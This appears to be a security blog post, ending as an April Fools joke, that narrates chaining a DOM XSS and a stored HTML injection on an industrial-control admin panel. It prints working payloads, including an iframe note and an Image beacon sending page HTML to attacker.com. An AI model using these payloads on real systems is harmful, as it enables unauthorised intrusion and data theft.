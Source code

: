 ```yaml
---
layout: post
title: From XSS to RCE
description: "I managed to executed
 system commands with XSS."
modified: 01-04-2019
tags: [xss]
image:
  path: /images/featured/xss-to-rce.png
  feature: /featured/xss-to-rce.png
---
```


About 3 days ago, I was recursively bruteforcing subdomains for a domain and I stumbled upon a domain that hosted an admin panel.
I guess it was my lucky day because it didn't require any authentication.
It didn't take me long to realise that it was acutally a web interface to monitor and control industrial machines.
They might have thought that it's well hidden and it needs to be accessed a million times of the by every other employee so they kept it open to keep off the hassle.
I thought I hit the jackpot but then I realised I could just monitor the systems, I needed credentials to make the machines do anything.
<!--more-->
I really wanted to do more so I started to look for what else could be done.
10 minutes into testing and shit and XSStrike found a potenial DOM XSS vulnerability.
The vulnerable code was the following:

```javascript
if (location.hash) {
  if (location.hash.substring(1, 2) === "_") {
    var channel, url, hash = location.href.substring(location.href.indexOf("#") + 3), indexOf = hash.indexOf(",");
    if (indexOf == -1) {
      channel = hash;
    }
    else {
      channel = hash.substring(0, indexOf);
      url = decodeURIComponent(hash.substring(indexOf + 1));
    }
    switch (location.hash.substring(2, 3)) {
      case "2":
        // NameTransport local
        window.parent.parent.easyXDM.Fn.get(channel)(window.name);
        location.href = url + "#_4" + channel + ",";
        break;
      case "3":
        location.href = url + "#_4" + channel + ",";
        break;
      case "4":
        // NameTransport idle
        var fn = window.parent.easyXDM.Fn.get(channel + "_load");
        if (fn) {
          fn();
        }
        break;
    }
  }
}
```

XSStrike picked up that input from a source (`location.hash` in this case) was being supplied to a sink (`location.href` in this case), crafing the payload was upto me.
I finally came up with `#_3channel,javascript:alert(1)//`.
But as an attacker, I would need to send the link to someone who had credentials but I couldn't do it, I didn't have the permission to interact with the staff.
So I started to look for other things, got a bunch of useless CSRFs but at last I found what I needed the most, stored XSS.
There was a feature to include notes so employees can collaborate on things and it was vulnerable to XSS*. I shouldn't call it XSS because I wasn't actually able to execute JavaScript.
Backend was filtering event handlers based on `on[a-zA-Z]*` pattern, `<script`, `href` and `data` attributes and a few other things I tried. Without having the ability to execute JavaScript, it was plain boring HTML injection.

But hey! I had DOM XSS! I knew exactly what to do, I tried injecting `<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:alert(1)//"` and it worked like a charm!
If there's a god, I am pretty sure he is determined to make my life harder than a morning wood because the cookies had the http_only flag :')
That wasn't much of problem because I could still dig deeper if I could see what an authorised person has access to but there was another problem, `script`s weren't allowed to make cross origin requests.
I would say **fuck** at this if I were you but I have said that enough times already.
I am not sure if it was public knowledge already but I discovered a way to access DOM, retrieve data and send it to my server bypassing all the restriction.
Yeah, we all know the `<img src="//attacker.com/?="+document.cookie>` trick but it doesn't work if you try to do `<img src="//attacker.com/?="+document.documentElement.innerHTML>` for obvious reasons.
So here's the trick, `img` tag can make requests to an external resource and the `script` tag can execute arbitrary JavaScript so we can grab the data we want with a `script` tag, create a new `img` element whose `src` has the juicy data in it's URL as `//attacker.com/?=juicy_data`.
Now the final payload had become this,

```javascript
#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//
```

To execute it, I added the following payload to a note

```javascript
<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//">
```

I hope you know what the above payload does.

Anyways, after tons of response from unathenticated users, I finally got one from an authenticated one. How did I know?
Well it didn't had the string `Log in XYZ...`.
Since the source was very long and couldn't be included in a single HTTP request, I had to `slice()` it which took more than hour but it was fruitful.
It had the endpoints to control various aspects of various machines.

That's it! I wrote a script to automate the process of creating a note that injects payload to executre given command when opened by an authenticated person.
One more thing. none of it happened, Happy april fools day :p

Anyways, Marvel is better than DC <3
